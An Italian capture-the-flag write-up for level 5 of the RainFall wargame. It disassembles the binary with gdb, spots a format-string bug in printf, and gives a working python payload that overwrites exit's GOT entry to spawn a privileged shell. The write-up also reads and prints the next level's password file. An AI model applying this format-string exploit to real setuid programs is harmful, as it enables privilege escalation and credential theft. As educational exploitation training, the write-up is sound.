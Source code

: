# Level 5
Controlliamo le stringhe presenti nell'eseguibile:
```
level5@RainFall:~$ readelf -p '.rodata' level5

String dump of section '.rodata':
  [     8]  /bin/sh
```
e ora passiamo a `gdb`:
```
level5@RainFall:~$ gdb -q level5
Reading symbols from /home/user/level5/level5...(no debugging symbols found)...done.
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08048334  _init
0x08048380  printf
0x08048380  printf@plt
0x08048390  _exit
0x08048390  _exit@plt
0x080483a0  fgets
0x080483a0  fgets@plt
0x080483b0  system
0x080483b0  system@plt
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x080483d0  exit
0x080483d0  exit@plt
0x080483e0  __libc_start_main
0x080483e0  __libc_start_main@plt
0x080483f0  _start
0x08048420  __do_global_dtors_aux
0x08048480  frame_dummy
0x080484a4  o
0x080484c2  n
0x08048504  main
0x08048520  __libc_csu_init
0x08048590  __libc_csu_fini
0x08048592  __i686.get_pc_thunk.bx
0x080485a0  __do_global_ctors_aux
0x080485cc  _fini
(gdb) disass main
Dump of assembler code for function main:
   0x08048504 <+0>:     push   %ebp
   0x08048505 <+1>:     mov    %esp,%ebp
   0x08048507 <+3>:     and    $0xfffffff0,%esp
   0x0804850a <+6>:     call   0x80484c2 <n>
   0x0804850f <+11>:    leave
   0x08048510 <+12>:    ret
End of assembler dump.
(gdb) disass n
Dump of assembler code for function n:
   0x080484c2 <+0>:     push   %ebp
   0x080484c3 <+1>:     mov    %esp,%ebp
   0x080484c5 <+3>:     sub    $0x218,%esp
   0x080484cb <+9>:     mov    0x8049848,%eax
   0x080484d0 <+14>:    mov    %eax,0x8(%esp)
   0x080484d4 <+18>:    movl   $0x200,0x4(%esp)
   0x080484dc <+26>:    lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:    mov    %eax,(%esp)
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:    lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:    mov    %eax,(%esp)
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>
   0x080484f8 <+54>:    movl   $0x1,(%esp)
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
End of assembler dump.
(gdb) disass o
Dump of assembler code for function o:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     sub    $0x18,%esp
   0x080484aa <+6>:     movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:    call   0x80483b0 <system@plt>
   0x080484b6 <+18>:    movl   $0x1,(%esp)
   0x080484bd <+25>:    call   0x8048390 <_exit@plt>
End of assembler dump.
```
### Funzione `main`
Chiama la funzione `n`

### Funzione `n`
Riserva 0x218 (536) byte nello stack e chiama le funzioni `fgets`, `printf` ed `exit`
nel seguente modo:
```
fgets(s, 512, stdin);
printf(s);
exit(1);
```

### Funzione `o`
Chiama le funzioni `system` ed `_exit` nel seguente modo:
```
system("/bin/sh");
_exit(1);
```

Quindi il programma riceve una stringa e la stampa senza mai passare per la funzione
`o` la quale avvia una shell, perciò sfruttando gli specificatori di printf
proprio come i livelli precedenti, dobbiamo scrivere l'indirizzo della funzione
`o` nell'offset della GOT (Global Offset Table) riguardante la funzione `exit`.
Come prima cosa andiamo alla ricerca dell'offset di `exit` nel seguente modo:
```
level5@RainFall:~$ objdump -R level5 | grep exit
08049828 R_386_JUMP_SLOT   _exit
08049838 R_386_JUMP_SLOT   exit
```
Così da avere:
```
Offset exit : 08049838
Offset o    : 080484a4
```
Dunque basta scrivere con `%n` in `08049838` il numero `080484a4` (134513828) meno
i quattro caratteri dell'indirizzo: 134513824,
così il programma invece di eseguire la funzione `exit` eseguirà la funzione `o`.
Come nei livelli precedenti bisogna ovviamente trovare il numero di specificatori 
per arrivare all'inizio della stringa di printf che in questo caso sono 4.
Procediamo nel seguente modo:
```
level5@RainFall:~$ python -c 'print "\x38\x98\x04\x08%134513824d%4$n"' > /tmp/exploit
level5@RainFall:~$ cat /tmp/exploit - | ./level5
                                                               512
id
uid=2045(level5) gid=2045(level5) euid=2064(level6) egid=100(users) groups=2064(level6),100(users),2045(level5)
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
```
level5@RainFall:~$ su level6
Password: d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level6/level6
level6@RainFall:~$
```
